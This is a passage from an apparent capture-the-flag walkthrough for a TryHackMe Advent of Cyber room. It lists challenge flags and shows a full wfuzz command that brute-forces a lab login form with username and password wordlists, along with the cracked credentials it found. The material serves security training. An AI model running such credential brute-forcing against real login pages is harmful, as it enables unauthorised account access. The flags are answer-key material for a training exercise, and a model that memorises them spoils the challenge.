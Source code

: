    ![](images/4.png)<br>
    **Answer:** THM{pin-code-brute-force}

## Task 10 - [Day 4] Brute-forcing Baby, it's CeWLd outside
1. What is the correct username and password combination? Format username:password<br>
    Follow step-by-step from the document.<br>
    ```
    $ wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.153.192/login.php -d "username=FUZZ&password=FUZ2Z"
    /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://10.10.153.192/login.php
    Total requests: 9361

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                                                                                              
    =====================================================================

    000006317:   302        118 L    297 W      4442 Ch     "isaias - Happiness"
    ```
    **Answer:** isaias:Happiness

1. What is the flag?<br>
    Select the message from kevin.<br>
    ![](images/5.png)<br>
    **Answer:** THM{m3rrY4nt4rct1crAft$}
